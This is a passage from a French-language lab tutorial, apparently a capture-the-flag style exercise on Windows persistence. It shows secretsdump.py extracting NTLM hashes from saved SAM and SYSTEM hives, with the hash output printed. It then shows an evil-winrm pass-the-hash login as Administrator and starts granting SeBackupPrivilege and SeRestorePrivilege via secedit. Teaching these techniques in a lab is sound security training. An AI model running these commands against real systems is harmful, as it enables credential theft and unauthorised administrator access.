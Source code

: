 Remarque : Si Evil-WinRM met trop de temps à télécharger les fichiers, n'hésitez pas à utiliser toute autre méthode de transfert.

Avec ces fichiers, nous pouvons vider les hachages de mots de passe de tous les utilisateurs utilisant `secretsdump.py`ou d'autres outils similaires :

Boîte d'attaque

```
user@AttackBox$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL

Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x41325422ca00e6552bb6508215d8b426
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1cea1d7e8899f69e89088c4cb4bbdaa3:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9657e898170eb98b25861ef9cafe5bd6:::
thmuser1:1011:aad3b435b51404eeaad3b435b51404ee:e41fd391af74400faa4ff75868c93cce:::
[*] Cleaning up...
```

Et enfin, effectuez Pass-the-Hash pour vous connecter à la machine victime avec les privilèges d'administrateur :

Boîte d'attaque

```
user@AttackBox$ evil-winrm -i MACHINE_IP -u Administrator -H 1cea1d7e8899f69e89088c4cb4bbdaa3
```

Privilèges spéciaux et descripteurs de sécurité

Un résultat similaire à l'ajout d'un utilisateur au groupe Opérateurs de sauvegarde peut être obtenu sans modifier l'appartenance au groupe. Les groupes spéciaux ne sont spéciaux que parce que le système d'exploitation leur attribue des privilèges spécifiques par défaut. Les privilèges sont simplement la capacité d'effectuer une tâche sur le système lui-même. Ils incluent des choses simples comme la possibilité d'arrêter le serveur jusqu'à des opérations très privilégiées comme la possibilité de s'approprier n'importe quel fichier du système. Une liste complète des privilèges disponibles peut être trouvée [ici](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) pour référence.

Dans le cas du groupe Opérateurs de sauvegarde, il dispose des deux privilèges suivants attribués par défaut :

-   SeBackupPrivilege : L'utilisateur peut lire n'importe quel fichier du système, en ignorant toute DACL en place.
-   SeRestorePrivilege : l'utilisateur peut écrire n'importe quel fichier du système, en ignorant toute DACL en place.

Nous pouvons attribuer de tels privilèges à n'importe quel utilisateur, indépendamment de son appartenance à un groupe. Pour ce faire, nous pouvons utiliser la `secedit`commande. Tout d'abord, nous allons exporter la configuration actuelle vers un fichier temporaire :

```
secedit /export /cfg config.inf
```

